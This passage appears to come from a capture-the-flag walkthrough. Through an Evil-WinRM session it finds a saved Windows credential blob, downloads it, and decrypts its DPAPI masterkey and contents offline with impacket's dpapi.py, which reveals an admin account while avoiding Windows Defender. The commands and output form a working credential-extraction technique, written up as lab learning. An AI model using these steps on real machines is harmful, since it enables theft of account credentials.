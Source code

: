 ## Saved Credentials

Unfortunately, WinPEAS didn’t provide any useful information. Another thing we should check is saved credentials. It's usually stored in `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\` folder.
To see the contents of this folder, we need to use `Get-ChildItem -Force` command to list all files in this folder.

```powershell
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> Get-ChildItem -Force


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6
```

In this case, we can see that there is a file named `C4BB96844A5C9DD45D5B6A9859252BA6` which is the credentialblob. We could use this guide from [Mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials) to decrypt it using DPAPI.
Because Windows Defender is enabled, we can't just run `mimikatz` on the box, so we need to decrypt it from our machine using tools like `dpapi.py` from `impacket` or [pypykatz](https://github.com/skelsec/pypykatz). I will use the former one, but let's download it first using `download C4BB96844A5C9DD45D5B6A9859252BA6` command from `evil-winrm`.
Ignore the error message after running the command, the file will be available in the current directory where you ran `evil-winrm`. After that, run the follwing command to view the content of the credential file and grab the `Guid MasterKey`.

```bash
dpapi.py credential -f C4BB96844A5C9DD45D5B6A9859252BA6
```

Next, we need to get the current user's SID using `whoami /all` and download the masterkey at `C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<GUIDMasterKey>` file. Use the following command to decrypt the masterkey file and get the key for decrypting the credential file.

```bash
dpapi.py masterkey -sid <SID> -f <masterkey_file> -password <password>
```

```bash
dpapi.py credential -f C4BB96844A5C9DD45D5B6A9859252BA6 -key <key>
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affil
iated companies

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : <password>
```
